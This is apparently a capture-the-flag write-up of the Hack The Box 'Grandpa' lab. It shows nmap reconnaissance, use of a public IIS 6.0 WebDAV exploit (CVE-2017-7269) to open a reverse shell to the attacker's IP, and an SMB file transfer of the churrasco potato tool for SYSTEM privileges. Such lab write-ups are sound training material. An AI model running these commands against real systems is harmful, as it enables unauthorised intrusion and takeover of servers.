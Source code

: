 # Box: Grandpa
# Level: Easy
# OS: Windows
<hr>
Lets get started

# Recon

## Portscanning

command:```nmap -A -v -T4 -p- 10.129.95.233```

```
Nmap scan report for 10.129.95.233
Host is up (0.22s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Mon, 13 Feb 2023 16:46:19 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   244.91 ms 10.10.14.43
2   245.07 ms 10.129.95.233

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 17:46:24 2023 -- 1 IP address (1 host up) scanned in 250.56 seconds
```
From our scan we can see we have just 1 open port, this means our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb7731fd-6a41-48cb-986b-b26f248f919e)

Well, there was nothing interesting in the page source actually.

Going back to the nmap scan, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccc2038-57f4-4ae5-ad11-4d48d571a03b)

Alright, so I think there's an exploit for that guy I highlighted

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

I was right hehehe. Well since we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

First, lets setup our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c8d39bf3-5ab5-4ca3-ab3a-6e11d401c3af)

Now, lets run the exploit script

command:```python2 iis6\ reverse\ shell 10.129.74.174 80 10.10.14.122 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa7a90cc-f39f-48ac-9f2d-29d7ea98a203)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0cb72701-5ce3-4176-a704-f6bcdfab17a6)

We got a shell as ```nt authority\network service```, this means we  have to escalate our privileges



# Privilege Escalation

Running the command ```whoami /priv```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/73f7870f-1161-4e00-9a75-319a23287d8e)

As we can see ```SeImpersonatePrivilege``` is enabaled, so this may be vulnerable to a potato exploit.

We can try [churrasco](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe) here

We'll  be transferring that to the target machine, now ```certutil``` and ```curl``` doesn't work on the target machine. This means we'll be sending the file over to the target using smb

Run this command in the directory where you downloaded the file

command:```smbserver.py share .```


Now, on the target machine run this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7932bd9a-1053-4464-b53e-13756a6c5110)

We have successfully transferred the file. To run the executable

command:```c.exe -d "cmd.exe"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/27576008-7737-4681-a3da-8a57e4e73d44)

We have successfully escalated our privileges.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4df58a11-c739-4d5a-8068-6527acf5d844)

We have successfully pwned this box😎





That will be all for today
<br> <br>
[Back To Home](../../index.md)
















